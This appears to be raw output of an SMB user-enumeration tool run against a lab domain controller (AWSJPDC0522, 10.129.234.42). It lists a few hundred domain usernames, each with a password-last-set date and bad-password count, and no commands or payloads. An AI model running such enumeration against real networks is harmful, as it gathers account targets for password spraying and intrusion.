SMB         10.129.234.42   445    AWSJPDC0522      Susan.Baker                   2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Eileen.Anderson               2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Vincent.Bryan                 2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Deborah.Edwards               2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rosemary.Edwards              2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dominic.Matthews              2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sylvia.Farrell                2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Amanda.Wall                   2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Timothy.Freeman               2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Bethan.Davies                 2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alan.Pearce                   2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Stanley.Smart                 2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Susan.Butler                  2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hannah.Thompson               2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Janice.Connolly               2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rhys.Marsh                    2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Phillip.Campbell              2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Norman.Evans                  2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Terry.Sharp                   2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rosie.Williams                2025-02-16 10:23:39 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dominic.Jones                 2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dorothy.Turner                2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Oliver.Rees                   2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lewis.Robson                  2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Glenn.Gould                   2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Max.Clark                     2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Oliver.Smith                  2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ronald.Martin                 2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Donald.Dunn                   2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alexander.Wilson              2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Geoffrey.Griffiths            2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Olivia.Gibson                 2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Mitchell.Jones                2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Philip.Stephens               2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jeremy.Riley                  2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Louis.Wood                    2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leanne.Williams               2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lisa.Harper                   2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Marilyn.Jordan                2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jenna.Jones                   2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Marie.Chadwick                2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sandra.Ward                   2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Stacey.Murray                 2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Katy.Jones                    2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tina.Lee                      2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Arthur.Cox                    2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gareth.Brown                  2025-02-16 10:23:40 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gillian.Wallace               2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Damien.Thompson               2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Harry.Turner                  2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Terry.Green                   2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jade.Pearson                  2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hugh.Wright                   2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jonathan.Pugh                 2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Melanie.Grant                 2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jeffrey.Taylor                2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lauren.Turner                 2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jeffrey.Harrison              2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tony.Benson                   2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tony.Owens                    2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rosie.O'Donnell               2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Abdul.Smart                   2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kyle.Chambers                 2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Terry.Howard                  2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Pamela.Knowles                2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dylan.Allen                   2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kerry.Bailey                  2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Stuart.Fletcher               2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Shaun.Campbell                2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Beverley.Willis               2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Chelsea.Green                 2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lydia.Bates                   2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Bernard.Lewis                 2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Julia.Allen                   2025-02-16 10:23:41 0        
SMB         10.129.234.42   445    AWSJPDC0522      Luke.Boyle                    2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Helen.Dickinson               2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Bryan.Arnold                  2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dorothy.Power                 2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Irene.Nicholson               2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Georgina.Cameron              2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Amber.Webster                 2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lawrence.Jones                2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gavin.Patel                   2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dylan.Brown                   2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Janet.Banks                   2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ann.Davies                    2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jade.Hunter                   2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Diane.West                    2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lynda.Woodward                2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hilary.Hilton                 2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lisa.Quinn                    2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alexandra.Vincent             2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kenneth.Cunningham            2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tom.Hunt                      2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hilary.Davies                 2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lorraine.Williams             2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Mathew.Cook                   2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Chloe.Williams                2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Robert.Reynolds               2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Marion.Thompson               2025-02-16 10:23:42 0        
SMB         10.129.234.42   445    AWSJPDC0522      Callum.Miles                  2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alice.Day                     2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tracy.Jones                   2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Vanessa.Cooke                 2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Karen.Stephenson              2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Vanessa.Dixon                 2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kelly.Robertson               2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Timothy.Jones                 2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Josh.Rees                     2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leslie.Lloyd                  2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kayleigh.Roberts              2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jonathan.Brady                2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leah.Parry                    2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dale.Thomas                   2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Eleanor.Hamilton              2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kenneth.Coleman               2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Christian.Marsden             2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Antony.Storey                 2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dominic.Wilson                2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Angela.Grant                  2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ian.Barker                    2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Pamela.Bennett                2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Billy.Little                  2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alan.Butler                   2025-02-16 10:23:43 0        
SMB         10.129.234.42   445    AWSJPDC0522      Nigel.Mills                   2025-02-19 08:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leanne.Gill                   2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Stuart.Taylor                 2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Deborah.Graham                2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Mitchell.Winter               2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Paula.Davies                  2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Barbara.Rowley                2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lynda.Nash                    2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kyle.Hill                     2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lesley.Lynch                  2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Beth.Baker                    2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Julie.Davies                  2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Irene.Allan                   2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Thomas.Brookes                2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Russell.Phillips              2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Donna.Green                   2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Natalie.Knowles               2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Toby.Lamb                     2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jayne.Barnes                  2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Elliott.Watson                2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Adam.Long                     2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jean.Allen                    2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lauren.Walters                2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leanne.Bentley                2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kieran.Miller                 2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Holly.Bradley                 2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jodie.Khan                    2025-02-16 10:23:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Billy.Smith                   2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jeremy.Howells                2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Elliott.Storey                2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Denise.Harvey                 2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ann.Kaur                      2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Damian.Marshall               2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Colin.Gibson                  2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Georgina.Long                 2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Bernard.Bevan                 2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lawrence.Collins              2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lee.Hunt                      2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Marcus.Collins                2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alexander.Mitchell            2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Keith.Wilson                  2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Joan.Taylor                   2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Simon.Watson                  2025-02-18 19:35:44 0        
SMB         10.129.234.42   445    AWSJPDC0522      Duncan.Roberts                2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hazel.Wright                  2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Paul.Smith                    2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Martyn.Thompson               2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Victor.Ellis                  2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Aaron.Howard                  2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Brenda.Reynolds               2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lawrence.Morton               2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      George.Hill                   2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leslie.Smith                  2025-02-16 10:23:45 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gillian.Jones                 2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Maureen.Hill                  2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Megan.James                   2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Nathan.Moss                   2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Damian.Wilson                 2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Paige.Murphy                  2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Shirley.Parker                2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Maurice.Hill                  2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sandra.Williams               2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Ian.Newton                    2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lorraine.Cox                  2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Abbie.Ford                    2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Eileen.Greenwood              2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Anthony.Clayton               2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Oliver.Allen                  2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Harry.King                    2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Vincent.Graham                2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Amanda.Parkin                 2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Stephanie.Potter              2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Melissa.Jones                 2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Michelle.Johnston             2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jamie.Jones                   2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Anthony.Webster               2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tracy.Godfrey                 2025-02-16 10:23:46 0        
SMB         10.129.234.42   445    AWSJPDC0522      Brian.Singh                   2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Shirley.Fuller                2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Beth.Campbell                 2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Clifford.Robinson             2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alan.Bibi                     2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lauren.Wilkinson              2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lucy.Evans                    2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Damien.Jenkins                2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Charlotte.Brooks              2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alison.Chapman                2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Roy.Knowles                   2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sally.Wilson                  2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Clive.Hamilton                2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Samuel.Herbert                2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jake.Young                    2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Louis.Brown                   2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gavin.Harvey                  2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alexandra.Wright              2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Samantha.Singh                2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alan.Carter                   2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Reece.Taylor                  2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Paula.Green                   2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      George.Clark                  2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Arthur.Morris                 2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Carly.Price                   2025-02-16 10:23:47 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jamie.Hardy                   2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Brandon.Jones                 2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hollie.Clark                  2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Melanie.Lambert               2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Leanne.Hughes                 2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Roger.Wright                  2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Dorothy.Fletcher              2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gerald.Cox                    2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hayley.Parkinson              2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Declan.Walker                 2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Christine.Lamb                2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Danny.Barnett                 2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Marilyn.Barnett               2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Liam.Webster                  2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Rhys.Williams                 2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Steven.Fraser                 2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alexander.Jones               2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Hannah.Smith                  2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Owen.Page                     2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Christopher.Jones             2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jeffrey.Wallis                2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Adrian.Lowe                   2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sophie.Macdonald              2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Anna.James                    2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Chloe.Parsons                 2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jade.Graham                   2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Simon.Griffiths               2025-02-16 10:23:48 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kate.Matthews                 2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Craig.Freeman                 2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Howard.Dickinson              2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Tracey.Marsden                2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Arthur.Mitchell               2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Craig.Wright                  2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Lynne.Parker                  2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kerry.Walton                  2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Marilyn.Clarke                2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sally.Brown                   2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alex.Thornton                 2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Keith.Macdonald               2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Mary.Bird                     2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gary.Wood                     2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Bradley.Smith                 2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Trevor.Williams               2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Joanna.Brown                  2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Caroline.Smith                2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Sheila.O'Donnell              2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Jacqueline.Hall               2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Charlene.Hudson               2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gregory.Smith                 2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Billy.Bailey                  2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Alison.Ahmed                  2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Kerry.Hall                    2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Holly.Alexander               2025-02-16 10:23:49 0        
SMB         10.129.234.42   445    AWSJPDC0522      Paula.Sutton                  2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Phillip.Parsons               2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Elizabeth.Adams               2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Connor.Henderson              2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Fiona.Fuller                  2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Danny.Brown                   2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Carly.Jones                   2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Stacey.Jones                  2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Joel.Taylor                   2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      June.Evans                    2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Linda.Pearce                  2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Holly.Shaw                    2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Carolyn.Hussain               2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Gareth.Davies                 2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Charlotte.Wright              2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Georgina.Macdonald            2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Emily.Cook                    2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Terence.Richards              2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Aimee.Khan                    2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Martin.Lane                   2025-02-16 10:23:50 0        
SMB         10.129.234.42   445    AWSJPDC0522      Roger.Warren                  2025-02-16 10:23:50 0        
